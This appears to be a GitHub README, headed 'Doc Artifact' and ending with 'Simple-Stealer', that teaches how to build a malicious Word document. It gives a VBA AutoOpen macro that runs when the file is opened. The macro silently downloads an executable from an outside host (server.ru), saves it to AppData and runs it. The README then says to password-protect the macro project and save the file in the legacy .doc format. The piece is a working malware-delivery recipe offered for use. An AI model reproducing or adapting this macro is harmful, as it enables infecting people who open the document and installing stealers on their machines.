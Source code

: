 <h1 align="center">Doc Artifact</h1>

-------
Launch Microsoft Word.
By default, the Developer tab is not visible, but you can add it to the ribbon.
1.On the File tab, go to Options > Customize Ribbon.
2.In the Ribbon Customization section, in the Main Tabs list, select the Developer check box.
Then we enter the Visual Basic development mode.

---
<p align="center">
	<img src="https://i.postimg.cc/FHhVdDwN/11.png" />
</p>
---

And we write our code in the document.

---
~~~vbs
Sub AutoOpen()
Application.ScreenUpdating = False
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://server.ru/file.exe", False
xHttp.Send
Dim j As String
j = Environ("AppDATA")
With bStrm
.Type = 1
.Open
.write xHttp.responseBody
.savetofile j & "\file.exe", 2 '//overwrite
End With
Shell (j & "\file.exe")
Application.ScreenUpdating = True
End Sub
~~~
---

<p align="center">
	<img src="https://i.postimg.cc/qRHsrwsP/22.png" />
</p>

Next, go to the project settings and set a password.

---
<p align="center">
	<img src="https://i.postimg.cc/QMFDDk8J/33.png" />
</p>
---

---
<p align="center">
	<img src="https://i.postimg.cc/Vk3GSj9R/44.png" />
</p>
---

Next, save the file with the Word Document 97-2003 (*.doc) type

---
<p align="center">
	<img src="https://i.postimg.cc/hGB6Gkqs/55.png" />
</p>
---

"# Simple-Stealer" 
